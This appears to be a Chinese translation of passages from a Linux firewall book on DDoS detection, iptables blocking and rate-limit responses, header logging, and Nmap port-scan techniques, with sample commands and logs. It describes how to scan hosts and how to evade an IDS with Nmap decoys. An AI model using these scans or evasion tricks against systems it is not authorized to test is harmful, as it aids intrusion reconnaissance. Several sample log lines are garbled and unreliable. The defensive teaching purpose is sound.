网络层的 DDoS 攻击利用许多系统（可能成千上万）同时向目标 IP 地址发送大量数据包。此类攻击的目标是通过垃圾数据尽可能多地占用目标网络的带宽，从而排挤合法通信。DDoS 攻击是网络层中最难对抗的攻击之一，因为如此多的系统通过宽带连接到 Internet。如果攻击者成功控制了几个具有高速 Internet 连接的系统，就有可能对大多数站点发起破坏性极强的 DDoS 攻击。

由于 DDoS 代理创建的单个数据包可以被伪造，因此当数据包到达受害者时，尝试分析此类数据包的源 IP 地址通常是徒劳的。

例如，根据 Snort 签名规则集（在后续章节中讨论），Stacheldraht DDoS 代理（参见 `http://staff.washington.edu/dittrich`）伪造来自 IP 地址 3.3.3.3 的 ICMP 数据包。如果你看到源 IP 地址设置为 3.3.3.3 且目的 IP 地址设置为外部地址的数据包，你就知道你本地网络中的某个系统已经变成了 Stacheldraht 僵尸。由 Stacheldraht 发送的数据包在被`iptables`记录时看起来与以下类似（①处的源 IP 地址 3.3.3.3，②处的 ICMP 类型 0，以及③处的 ICMP ID 666 均来自 Snort 规则 ID 224）：

```
Jul 24 01:44:04 iptablesfw output iptablesw kernel: SPOOFED PRT IN=eth0 OUT= 
MAC=00:13:d3:38:1e:04;NUT=13:46:c2:60:14:48;00:00 ①SRC=3.3.3.3 DST=71.157.X.X 
LEN=84 TOS=0x00 PRC=0x00 TTL=63 ID=0 DF PRO=ICMP 
②TYPE=0 CODE=0 ③ID=666 SEQ=1
```

总的来说，尝试检测与 DDoS 代理相关的控制通信比检测泛洪数据包本身更有效。例如，检测从控制节点通过不常用端口号发送到僵尸节点的命令是一个很好的策略（Snort 规则集中的几个签名就在寻找此类通信——参见 Snort 签名集中的`dos.rules`文件）。在从网络中清除 DDoS 代理时，这也可能产生效果，因为控制通信可以帮助指向被感染的系统。

## Linux 内核 IGMP 攻击

一个针对负责处理网络层通信的代码的攻击好例子，是对 Linux 内核中 Internet 组管理协议（IGMP）处理代码特定漏洞的利用。内核版本 2.4.22–2.4.28 和 2.6-2.6.9 存在漏洞，且可以被远程用户和本地用户利用（某些安全漏洞仅可本地利用，因此这是一个非常严重的 Bug）。从远程系统通过网络成功利用该漏洞可能会导致内核崩溃，详情请参阅 `http://isec.pl/vulnerabilities/isec-0018-igmp.txt`。内核代码有时包含安全 Bug，这些 Bug 可能一直存在于底层的网络层处理代码或设备驱动程序中。

> ¹⁷ 成功的 TCP 序列号预测攻击可以允许伪造源拆除 TCP 连接，或将数据注入现有连接。

> ¹⁸ 从以主机为中心的视角看待入侵检测被称为基于目标的入侵检测，它允许 IDS 将目标的实现细节考虑在内。

系统；关于此点的更多内容请参阅[第 8 章](Chapter%208)。

¹⁹ 如果路由器在转发数据包之前持有该数据包的时间超过一秒，则路由器可能会将 TTL 值减 2 或更多。RFC 791 规定，路由器必须*至少*将 TTL 减 1。

## 网络层响应

就网络层响应达成定义一致的定义，与就网络层攻击达成一致的定义一样有用。由于此类响应不应涉及传输层或更高层的信息，因此我们仅限于通过以下三种方式之一来操纵网络层报头：

- 由防火墙或路由器等设备执行的过滤操作，用于拦截攻击者的源 IP 地址
- 重新配置路由协议，通过路由黑洞（route blackholing）手段阻止攻击者将数据包路由到预期目标——数据包被发送到虚无之中，从此杳无音信
- 根据已使用的带宽，对允许通过防火墙或路由器的流量量应用阈值逻辑


纯粹处于网络层的响应可用于对抗在应用层检测到的攻击，但此类响应不应涉及诸如生成 `TCP RST` 数据包之类的事情——这将是一种传输层响应，我们将在第 3 章中看到。

### 网络层过滤响应

在检测到来自特定 `IP` 地址的攻击后，你可以使用以下 `iptables` 规则作为属于过滤类别的网络层响应。这些规则被添加到 `INPUT`、`OUTPUT` 和 `FORWARD` 链中；它们会拦截所有与 IP 地址 `144.202.X.X` 之间（无论协议或端口）的通信：

```
[iptableszf]# iptables -I INPUT 1 -s 144.202.X.X -j DROP
[iptableszf]# iptables -I OUTPUT 1 -d 144.202.X.X -j DROP
[iptableszf]# iptables -I FORWARD 1 -s 144.202.X.X -j DROP
[iptableszf]# iptables -I FORWARD 1 -d 144.202.X.X -j DROP
```

`FORWARD` 链中有两条规则，分别用于拦截源自 `144.202.X.X` (`-s 144.202.x.x`) 的数据包，以及来自内部系统且目的地为 `144.202.X.X` (`-d 144.202.x.x`) 的响应数据包。如果你使用 `iptables` 作为你的网络哨兵，那么上述规则为针对 `144.202.X.X` 地址提供了一个有效的网络扼制点。

### 网络层阈值响应

通过 `iptables` 的 `limit` 扩展可以对 `iptables` 目标应用阈值逻辑。例如，`limit` 扩展可与 `ACCEPT` 规则结合使用，以限制在给定时间窗口内从特定源地址接收的数据包数量。以下 `iptables` 规则将策略限制为每秒仅允许 10 个数据包发往或来自 `144.202.X.X` IP 地址。

```
[iptablesfw]# iptables -I INPUT 1 -m limit --limit 10/sec -s 144.202.X.X -j ACCEPT
[iptablesfw]# iptables -I INPUT 2 -s 144.202.X.X -j DROP
[iptablesfw]# iptables -I OUTPUT 1 -m limit --limit 10/sec -d 144.202.X.X -j ACCEPT
[iptablesfw]# iptables -I OUTPUT 2 -d 144.202.X.X -j DROP
[iptablesfw]# iptables -I FORWARD 1 -m limit --limit 10/sec -s 144.202.X.X -j ACCEPT
[iptablesfw]# iptables -I FORWARD 2 -s 144.202.X.X -j DROP
[iptablesfw]# iptables -I FORWARD 1 -m limit --limit 10/sec -d 144.202.X.X -j ACCEPT
[iptablesfw]# iptables -I FORWARD 2 -d 144.202.X.X -j DROP
```

对于上述每条使用 `limit` 匹配的 `ACCEPT` 规则，都有一条相应的 `DROP` 规则。这处理了超过 `limit` 匹配所允许的每秒 10 个最大值的数据包量；一旦数据包量高于此阈值，它们将不再匹配 `ACCEPT` 规则，进而与 `iptables` 策略中的其余规则进行比较。通常情况下，完全拒绝与攻击者通信比允许即使是受阈值限制的数据包通过要好得多。

你还可以使用 `limit` 匹配来对默认日志规则生成的 `iptables` 日志消息数量设置阈值。然而，除非磁盘空间是一个问题，否则为 `LOG` 规则应用限制阈值通常是不必要的，因为内核在 `LOG` 目标内部使用环形缓冲区，因此只要数据包触发 `LOG` 规则的速度快于通过 `syslog` 写入的速度，日志消息就会被覆盖。

## 跨层组合响应

响应可以跨层组合，就像攻击可以跨层组合一样。例如，可以在使用 `fwsnort` 和 `psad` 等工具组合发送 `TCP RST` 的同时，针对攻击者实例化一条防火墙规则（见第 11 章）。

切断恶意 `TCP` 连接的一种方法是使用 `iptables` 的 `REJECT` 目标，然后针对攻击的源地址实例化一条持久的拦截规则。持久拦截规则是网络层响应，它可以防止攻击者的当前 `IP` 地址与初始攻击目标之间进行任何进一步的通信。

虽然这听起来很有效，但请注意，防火墙中的拦截规则经常会被通过洋葱路由（`Tor`）网络路由攻击的攻击者绕过。[20] 通过 `Tor` 发送攻击，攻击的源地址对于目标来说是不可预测的。

对于源 `IP` 地址被攻击者伪造的攻击也是如此。伪造攻击不需要双向通信，因此对它们做出响应是有风险的；这样做实际上是将谁被你的防火墙拦截的控制权交给了攻击者！你的防火墙策略中不太可能将所有重要的 `IP` 地址（如 `DNS` 服务器、上游路由器、远程 `VPN` 隧道终点等）都列入白名单，因此将这种控制权交给攻击者是非常危险的。本章前面提到的一些可疑流量示例，如伪造的 `UDP` 字符串、`TTL` 值较低的数据包以及 `Nmap ICMP Echo` 请求，都是不适合采取积极响应的典型流量。

正如我们在后续章节中将看到的，只有少数几类流量最适合采用自动化响应。

> [20] `Tor` 通过加密和随机的方式将数据包发送到被称为*洋葱路由器*的节点云中，从而使网络通信匿名化。`Tor` 仅支持 `TCP`，因此不能用于对 `UDP` 等其他协议的攻击进行匿名化。

# 第 3 章. 传输层攻击与防御

传输层（OSI 参考模型中的第四层）为互联网上的端主机提供数据传输、流量控制和错误恢复服务。我们关注的两种主要传输层协议是传输控制协议（`TCP`）和用户数据报协议（`UDP`）。

`TCP` 是一种面向连接的协议。这意味着客户端和服务器在交换任何数据之前，会协商一组定义数据传输方式的参数，并且连接的开始和结束有明确的界限。`TCP` 以可靠、有序的方式在两个节点之间传输数据，这使得应用层协议无需自行构建此功能。<sup>21</sup>

相比之下，`UDP` 是一种无连接协议。作为一种无连接协议，它不能保证数据能够到达预期目的地，也不能保证成功通过的数据的形态（甚至 `UDP` 报头中的校验和计算也是可选的，而 `TCP` 则不然）。通过 `UDP` 套接字传输数据的应用程序可以选择实现额外的机制以可靠地传输数据，但在使用 `UDP` 套接字时，此类功能必须在应用层构建。

在本章中，我们将首先关注 `iptables` 如何在日志消息输出中表示传输层信息。然后我们将看到这些日志如何捕获可疑的传输层活动。

## 使用 iptables 记录传输层报头

`iptables` 的 `LOG` 目标拥有用于记录 `TCP` 和 `UDP` 报头的广泛机制。`TCP` 报头比 `UDP` 报头复杂得多，某些 `TCP` 报头字段仅在向 `iptables` 策略添加 `LOG` 规则时提供了特定的命令行参数的情况下才会被记录。

### 记录 TCP 报头

`TCP` 报头在 `RFC 793` 中定义，任何特定 `TCP` 段<sup>22</sup>的报头长度取决于包含的选项数量。不包括选项（这是唯一的可变长度字段）在内的报头长度始终为 20 字节。在 `iptables` 日志消息中，`TCP` 报头的每个字段都带有标识字符串，如图 3-1 所示。

图 3-1. `TCP` 报头和 `iptables` 日志消息字段

图 3-1 中所有深灰色方框的内容始终包含在 `TCP` 数据包的 `iptables` 日志消息中；浅灰色阴影字段仅在向 `iptables` 提供指定的命令行参数时才会包含。白色方框的内容永远不会被 `iptables` 记录。

第 1 章默认 `iptables` 策略中包含的 `INPUT`、`OUTPUT` 和 `FORWARD` 链中的 `LOG` 规则都是使用 `--log-tcp-options` 参数构建的，因此只要 `TCP` 段包含选项，每条日志消息就会包含一段十六进制代码。本章假设由第 1 章 `iptables.sh` 脚本实现的默认 `iptables` 策略正在图 3-2 所示的 `iptablesfw` 系统上运行。（此图与图 1-2 相同，为了方便起见在此重复出现。）

图 3-2. 默认网络拓扑图

为了演示 `iptables` 日志消息中包含的 `TCP` 选项，我们尝试从 `ext_scanner` 系统向 `iptablesfw` 系统的 `15104` 端口发起 `TCP` 连接。

由于默认策略不允许与 `15104` 端口通信，初始的 `SYN` 数据包被默认的 `iptables` `LOG` 和 `DROP` 规则拦截。`iptables` 为 `TCP` 报头每个字段关联的标签如下方**粗体**所示，从源端口 (`SPT`) 开始，到报头的选项部分 (`OPT`) 结束：

```
[ext_scanner]$ nc -v 71.157.X.X 15104
[iptablesfw]$ tail -vr /var/log/messages | grep 15104 out=
Jul 12 15:10:22 iptablesfw kernel: DROP IN=eth0 OUT= 
MAC=00:1d:33:8b:6e:400:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X 
LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=18273 DF PROTO=TCP 
SPT=47655 DPT=15104 WIN=0 TCP:SYN URGP=0 OPT=0204058040208020A030 
82048C00000000001030306
```

若要让 `iptables` 提供序列号和确认号，请使用 `--log-tcp-sequence` 参数（见下方**粗体**部分）：

```
[iptablesfw]$ iptables -I INPUT -p tcp --dport 15104 -j LOG --log-tcp-options 
--log-tcp-sequence
[ext_scanner]$ nc -v 71.157.X.X 15104
[iptablesfw]$ tail -vr /var/log/messages | grep 15104 out=
Jul 12 15:33:53 iptablesfw kernel: DROP IN=eth0 OUT= 
MAC=00:1d:33:8b:6e:400:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X 
LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=62378 DF PROTO=TCP SPT=54133 DPT=15104 
SEQ=19830421 ACK=0 WIN=0 TCP:SYN URGP=0 OPT=0204058040208020A030 
0204058040208020A0308760A1000000010001003036
```

### 记录 UDP 报头

`UDP` 报头在 `RFC 761` 中定义。它只有 8 个字节长，且没有可变长度字段（见图 3-3）。

由于没有特殊的命令行参数可以影响日志目标如何表示 `UDP` 报头，因此 `iptables` 总是以相同的方式记录 `UDP` 报头。

图 3-3. `UDP` 报头和 `iptables` 日志消息字段

尽管第 1 章讨论的 `iptables` 策略中的默认 `LOG` 规则使用了 `--log-tcp-options` 参数，但如果 `UDP` 数据包命中这些规则，`iptables` 会做出正确处理，仅记录数据包中实际存在的信息；它不会尝试记录并不存在的 `TCP` 报头选项部分。`UDP` 校验和永远不会被记录，但其余三个字段 (`SPT`, `DPT`, 和 `LEN`) 都会包含在内：

```
[ext_scanner]$ echo -n "aaaa" | nc -u 71.157.X.X 5001
[iptablesfw@fw]# tail /var/log/messages | grep 5001
Jul 17 12:16:27:08 iptablesfw kernel: DROP IN=eth0 OUT=
MAC=00:13:b3:d3:38:b6:0e:40:00:30:48:80:0e:37:08:00 SRC=144.202.X.X DST=71.157.X.X
LEN=33 TOS=0x00 PREC=0x00 TTL=64 ID=30817 DF PROTO=UDP
SPT=44595 DPT=5001 LEN=12
```

## 注意

上述 `iptables` 日志消息中的 `UDP` `LEN` 字段包括 `UDP` 报头长度加上应用层数据的长度。在这种情况下，应用层数据由四个字节 “aaaa” 组成，将其与 `UDP` 报头长度（8 字节）相加，总计 12 字节。`echo` 命令的 `-n` 命令行参数指示其不要添加末尾的换行符。如果没有使用该参数，`LEN` 字段的值将为 13，以容纳额外的字节。

> [21] 从技术上讲，在 OSI 参考模型中，传输层与上方的会话层和下方的网络层交互，但通常将会话层（以及表示层）视为被包含在应用层之内会更有用。

> [22] 虽然 `TCP` 信息的专业术语是 `TCP` 段 (*segment*)，但许多人非正式地称其为 `TCP` 包 (*packets*)（技术上 *packets* 是网络层的术语），我也使用了这种口语化表达。同样的逻辑也适用于 `UDP` 数据报 (*datagrams*)——称其为 `UDP` 包 更加方便。

## 传输层攻击定义

与网络层攻击的定义（第 2 章给出）类似，我们将 *传输层攻击* 定义为滥用传输层报头字段的一个或一系列数据包，旨在利用端主机传输栈实现中的漏洞或错误条件。

传输层攻击分为以下三类之一：

### 连接资源耗尽

旨在使目标主机或一组主机上用于处理新连接的所有可用资源饱和的数据包。一个典型的例子是 `SYN` 洪水形式的 `DDoS` 攻击。

### 报头滥用

包含恶意构造、损坏或伪造的传输层报头的数据包。一个典型的例子是旨在拆除 `TCP` 连接的伪造 `RST` 包。我们将端口扫描（下文讨论）也归入此类，尽管扫描 *本身* 并非恶意行为。

### 传输栈漏洞利用

包含针对端主机传输层栈漏洞的利用代码的数据包。也就是说，专门用于处理传输层信息的内核代码本身就是目标。一个典型的例子（尤其是在本书背景下）是 2004 年公布的一个针对 `Netfilter` `TCP` 选项处理代码漏洞的利用（该 bug 已被 `Netfilter` 项目迅速修复，因此任何近期的内核版本都不受影响）。虽然这并未利用 `TCP` 栈本身，但它利用了通过 `Netfilter` 框架直接挂载到栈上的代码。

## 滥用传输层

因为传输层在某种意义上是向上与网络应用程序通信之前的最后一个网关，所以它是攻击者眼中极具吸引力的目标。涉及传输层信息的许多可疑活动更多地被归类为侦察行为，而非直接攻击。

### 端口扫描

端口扫描是一种用于询问主机的技术，以查看从特定 `IP` 地址可以访问哪些 `TCP` 或 `UDP` 服务。扫描系统可能是实现成功入侵过程中的重要步骤，因为它向攻击者提供了关于哪些服务可以被访问和攻击的信息。

即便如此，端口扫描也可以仅仅是为了查看有哪些可用服务可以通信；端口扫描本身并没有内在的恶意性。你可以将端口扫描比作一个人敲一家房子所有的门。对于任何一扇门，如果有人应答，而这个人只是说：“你好，很高兴见到你”，然后走开，那么就没有造成伤害。虽然重复敲门可能令人怀疑，但除非此人尝试进入房子，否则可能还没有犯罪。尽管如此，如果有人敲我家所有的门，我想知道这件事，因为这可能是有人在收集关于最佳潜入方式的信息。同样，检测端口扫描是个好主意（需经过调优以减少误报），大多数网络入侵检测系统（`IDS`）都提供了在系统遭受扫描时发送警报消息的能力。

### 将端口扫描与漏洞服务匹配

端口扫描不需要对目标系统上的每一个可能端口进行穷举测试。[23] 如果攻击者擅长入侵例如 `OpenSSH 3.3` 和 `BIND 4.9` 服务器，那么去发现剩余的 65,533 [24] 个端口是否也绑定了服务器就没什么意义。此外，生成嘈杂的扫描来测试系统上的所有端口很容易触发 `IDS` 警报，因为任何合理的端口扫描阈值都极有可能被触发。作为攻击者，最好不要引起不必要的注意。为了让 `IDS` 更难确定扫描的真实来源，攻击者还可以使用 `Nmap` 的诱饵 (`-D`) 选项。这允许从多个伪造的源地址重复进行端口扫描，因此在目标系统看来，它像是被多个独立来源同时扫描。其目的是让监视 `IDS` 警报的安全管理员更难查出扫描的真实来源。

### TCP 端口扫描技术

`TCP` 端口的扫描可以通过令人惊讶的多种方式完成。当数据包在网络中传输时，每种技术的线缆表现略有不同。我们将在接下来的几个章节（从“TCP connect() 扫描”开始，到第 58 页的“TCP 空闲扫描”结束）中详细阐述主要的扫描技术。幸运的是，功能强大的 `Nmap` 扫描器（见 http://www.insecure.org）已经为我们自动化了这些技术，因此在本章的所有扫描示例中，我们都使用 `Nmap`。我们在激活默认 `iptables` 策略的 `iptablesfw` 系统上启动扫描（见图 3-2），并将讨论下面列出的 `Nmap` 端口扫描技术：

- `TCP connect()` 扫描—(`Nmap -sT`)
- `TCP SYN` 或半开放扫描—(`Nmap -sS`)
- `TCP FIN`、`XMAS` 和 `NULL` 扫描—(`Nmap -sF, -sX, -sN`)
- `TCP ACK` 扫描—(`Nmap -sA`)
- `TCP` 空闲扫描—(`Nmap -sI`)
- `UDP` 扫描—(`Nmap -sU`)

在接下来的每项扫描中，都使用了 `Nmap` 的 `-Pn` 命令行选项，以强制 `Nmap` 在发送扫描之前跳过确定 `iptablesfw` 系统是否在线的步骤（即省略主机发现）。从 `Nmap` 的角度来看，每个被扫描的端口可能处于三种状态之一：

| 状态 | 描述 |
| :--- | :--- |
| `open` (开放) | 有服务器绑定到该端口，并且可以访问。 |
| `closed` (关闭) | 没有服务器绑定到该端口。 |
| `filtered` (被过滤) | 可能有服务器绑定到该端口，但通信尝试被拦截，`Nmap` 无法确定端口是开放还是关闭。 |

## TCP connect() 扫描


当一个正常的客户端应用程序尝试通过网络与绑定到 TCP 端口的服务器通信时，本地 TCP 栈代表客户端与远程栈进行交互。在传输任何应用层数据之前，两个栈必须协商管理客户端与服务器之间即将进行的对话的参数。这种协商就是标准的 TCP 三路握手，需要三个数据包，如图 3-4 所示。



**图 3-4. TCP 三路握手**

第一个数据包`SYN`（synchronize 的缩写）由客户端发送给服务器。该数据包宣告了用于跟踪 TCP 会话数据传输至服务器所需的初始序列号（以及其他内容，如 TCP 窗口大小和是否允许选择性确认等选项）。如果`SYN`包到达一个开放端口，服务器 TCP 栈将响应一个`SYN/ACK`，以确认收到来自客户端的初始序列值，并向客户端宣告自己的序列号。客户端收到`SYN/ACK`后，向服务器发送一个确认（`ACK`）。此时，双方已就连接参数（包括初始序列号）达成一致，连接状态被定义为已建立（established），准备传输数据。

在`TCP connect()`扫描的语境下，扫描器为每个扫描端口发送`SYN`和结束的`ACK`数据包。任何普通用户都可以使用`Nmap`以此模式扫描远程系统，无需特殊权限。

以下是`SYN`扫描显示的部分 iptables 日志消息以及`Nmap`的输出。你可以看到 http 和 https 端口是开放的，且`SYN`数据包的选项部分包含大量选项：

```
# root_scanner] # nmap -sT -Pn 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-07-03 00:32 EDT
Interesting ports on 71.157.X.X:
(The 1670 ports scanned but not shown here are in state: filtered)
PORT STATE SERVICE
80/tcp open http
443/tcp open https
Nmap finished: 1 IP address (1 host up) scanned in 30.835 seconds

[iptablesfw] # grep SYN /var/log/messages | tail -n 1
Jul 3 00:32:03 iptablesfw kernel: [IN=eth0 OUT=] 
MAC=00:13:d3:38:1b:6f SRC=192.168.1.10 DST=10.0.0.100 SRC=144.202.X.X DST=71.157.X.X 
LEN=40 TOS=00 PREC=6 TCP=000 TTL=64 ID=65148 DF PROTO=TCP SPT=43237 DPT=80 
WINDOW=5840 RES=0x00 SYN URG=0 OPT=0x02040804020b0a0200000000000000001030306
```

## TCP SYN 或半开放扫描

`SYN`或半开放扫描与`connect()`扫描类似，扫描器向每个 TCP 端口发送`SYN`数据包，试图诱导其产生`SYN/ACK`或`RST/ACK`响应，从而显示目标端口是开放还是关闭。然而，扫描系统永远不会完成三路握手，因为它故意不向任何响应`SYN/ACK`的开放端口返回`ACK`数据包。因此，`SYN`扫描也被称为半开放扫描，因为三路握手永远没有机会优雅地完成，如图 3-5 所示。



`SYN`扫描无法通过`connect()`系统调用来实现，因为该调用会调用原生的 TCP 栈代码，而原生栈会对从目标接收到的每个`SYN/ACK`响应一个`ACK`。因此，`SYN`扫描中发送的每个`SYN`数据包必须通过一种完全绕过 TCP 栈的机制来构建。这通常是通过使用原始套接字（raw socket）桶来构建一个数据结构，使其在被 OS 内核置于线缆上时模拟一个`SYN`数据包。

### 原始套接字与未请求的 SYN/ACK

使用原始套接字而非`connect()`系统调用来构建发向远程系统的 TCP `SYN`数据包会引发一个有趣的问题。如果远程主机响应了`SYN/ACK`，那么扫描系统上的本地 TCP 栈会收到该`SYN/ACK`，但由于发出的`SYN`数据包并非来自本地栈（因为我们是通过原始套接字手动构建的），因此就栈而言，这个`SYN/ACK`并不属于合法的 TCP 握手。因此，扫描器的本地栈会向目标系统发送一个`RST`，因为该`SYN/ACK`看起来是未请求的。你可以通过在开始扫描前对`OUTPUT`链实施规则来停止扫描系统的这种行为，命令如下：

```
[ext_scanner]# iptables -I OUTPUT 1 -d target -p tcp --tcp-flags RST RST -j DROP
```

`Nmap`在其`SYN`扫描模式（`-sS`，特权用户的默认扫描模式）中使用原始套接字手动构建 TCP `SYN`数据包。由于这些数据包的特性由`Nmap`直接决定（不使用本地 TCP 栈），它们与栈通常生成的 TCP `SYN`数据包有显著不同。例如，如果我们使用浏览器启动一个到 http://www.google.com 的 Web 会话，并使用 tcpdump 显示来自本地 Linux TCP 栈的`SYN`数据包，我们会看到以下内容：

```
[iptablesfw]# tcpdump -i eth0 -l -nn port 80
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode listening on eth0,
link-type EN10MB (Ethernet), capture size 96 bytes
11:13:40.255182 IP 71.157.X.59603 > 72.14.203.99.80: S 2446075733:2446075733(0)
win 5840
<mss 1460,sackOK,timestamp 277196169 0,nop,wscale 2>
```

上述内容中以粗体显示的是 TCP 标头中的窗口大小和选项部分。每一项的具体值由本地 TCP 栈定义，用于与远程主机协商一个有效的 TCP 会话。

与真实 TCP 栈生成的`SYN`数据包不同，`Nmap`并不关心协商一个真实的 TCP 会话。`Nmap`唯一感兴趣的是远程主机的端口是开放的（`Nmap`收到`SYN/ACK`）、关闭的（`Nmap`收到`RST/ACK`）还是被过滤的（`Nmap`什么也没收到）。因此，`Nmap`置于线缆上的 TCP `SYN`数据包只需要在远程主机看来是一个设置了`SYN`标志的 TCP 包即可，这样远程 TCP 栈就会响应`SYN/ACK`、`RST/ACK`或不响应（如果端口被过滤）。

对于 3.x 系列版本的`Nmap`，用于扫描远程系统的`SYN`数据包中不包含 TCP 选项，如下所示。（如果数据包中包含选项，它们将出现在 TCP 窗口大小之后，如本处以粗体所示。）

```
11:17:30.313099 IP 71.157.X.52831 > 72.14.203.99.80: S 2001815651:2001815651(0)
win 3072
```

对于最新版本的`Nmap`，它发送的`SYN`数据包中包含最大分段大小（`MSS`）值，如下面的粗体所示。

```
15:55:15.521882 IP 71.157.X.58302 > 72.14.203.99.80: S 197554866:197554866(0)
win 2048 <mss 1460>
```

如果我们现在对`iptablesfw`系统运行`SYN`扫描，之前在`connect()`扫描中看到的相同端口被报告为开放，但你可以看到，TCP 选项比`connect()`扫描要少。也就是说，`SYN`扫描的选项字符串是`020405B4`，而前一节中`connect()`扫描的选项字符串是`020405B402080A2080A362957700000001030000`。

```
[ext_scanner]# nmap -sS 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03 00:27 EDT
Interesting ports on 71.157.X.X:
( The 1078 ports scanned but not shown below are in state: filtered)
PORT STATE SERVICE
80/tcp open http
443/tcp open https
Nmap finished: 1 IP address ( 1 host up ) scanned in 22.334 seconds
```

```
[iptablesfw]# grep SYN /var/log/messages | tail -n 1
Jul 3 00:27:59 iptablesfw kernel: DROP in=eth0 OUT=
MAC=00:13:d3:81:b3:e4:80:10:40:28:80:14e:37:08:00 SRC=144.202.X.X DST=71.157.X.X
LEN=44 TOS=0x00 PREC=0x00 TTL=52 ID=21049 PROTO=TCP SPT=43996 DPT=80
WINDOW=1024 RES=0x00 URG=0 OPT 020405B4
```

## TCP FIN, XMAS 和 NULL 扫描

`FIN`、`XMAS`和`NULL`扫描的操作原理是：任何（遵循 RFC 的）TCP 协议栈在端口收到一个没有设置`SYN`、`ACK`或`RST`控制位的异常 TCP 数据包时，都应该以特定的方式响应。如果端口是关闭的，TCP 会响应一个`RST/ACK`；但如果端口是开放的，TCP 则完全不会发送任何响应包。

以下示例显示了对`iptablesfw`系统的`FIN`扫描，请注意在 ① 处，所有端口都被`Nmap`报告为`open|filtered`（开放|被过滤）。由于异常的`FIN`包不属于任何合法的 TCP 连接，因此所有的`FIN`包（即使是发送到开放端口的包）都会匹配 iptables 策略中的`INVALID`状态规则，随后被记录并丢弃。（请参见下方 ② 处的`INVALID`日志前缀和 ③ 处设置的`FIN`标志。）

```
[ext_scanner]# nmap -Pn -sF 71.157.X.X
Starting Nmap 4.01 ( https://www.insecure.org/nmap/ ) at 2007-07-03 00:33 EDT
All 162 scanned ports on 71.157.X.X are: ①open|filtered
Nmap finished: 1 IP address (1 host up) scanned in 16.199 seconds

[iptablesfw]# grep FIN /var/log/messages | tail -n 1
Jul 3 00:34:17 iptablesfw kernel: DROP IN INVALID in=eth0 out=
MAC=00:13:3b:8e:40:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X
LEN=40 TOS=0x00 PREC=0x00 TTL=54 ID=50009 PROTO=TCP SPT=60097 DPT=1437
WINDOW=3072 RES=0x00 ②FIN UNG=0
```

## TCP ACK 扫描

TCP ACK 扫描（`Nmap -sA`）向每个被扫描端口发送一个 TCP ACK 包，并寻找来自开放端口和关闭端口的 RST 包（在这种情况下不是 RST/ACK 包）。如果目标端口没有返回 RST 包，那么 Nmap 会推断该端口被过滤，如下面针对 `iptablesfw` 系统的 ACK 扫描示例中 ① 所示。

ACK 扫描的目的不是为了确定端口是开放还是关闭，而是为了确定端口是否被状态防火墙过滤。由于只要使用了 Netfilter 连接跟踪子系统（通过状态匹配），iptables 防火墙就是状态化的，因此没有任何异常的 ACK 包能进入 `iptablesfw` 系统的 TCP 协议栈。因此，如下所示，扫描器没有收到任何返回的 RST 包（注意 ② 处设置的 ACK 标志）。

```
[ext_scanner]# nmap -Pn -sA 71.157.X.X
Starting Nmap 4.01 ( https://www.insecure.org/nmap/ ) at 2007-07-03 00:36 EDT
All 162 scanned ports on 71.157.X.X are: ①filtered
Nmap finished: 1 IP address (1 host up) scanned in 36.191 seconds

[iptablesfw]# grep ACK /var/log/messages | tail -n 1
Jul 3 00:37:18 iptablesfw kernel: DROP IN in=eth0 out= 
MAC=00:13:3b:8e:40:00:30:48:80:4e:37:08:00 SRC=144.202.X.X DST=71.157.X.X
LEN=40 TOS=0x00 PREC=0x00 TTL=43 ID=51322 PROTO=TCP SPT=62068 DPT=6006
WINDOW=4096 RES=0x00 ②ACK DUP=0
```

## TCP 闲置扫描 (Idle Scans)

TCP 闲置扫描是一种高级扫描模式，需要三个系统：一个启动扫描的系统、一个扫描目标，以及一个运行着负载较低的 TCP 服务器的僵尸主机（因此该扫描被称为“闲置”扫描）。闲置扫描如图 3-6 所示。



**图 3-6. TCP 闲置扫描**

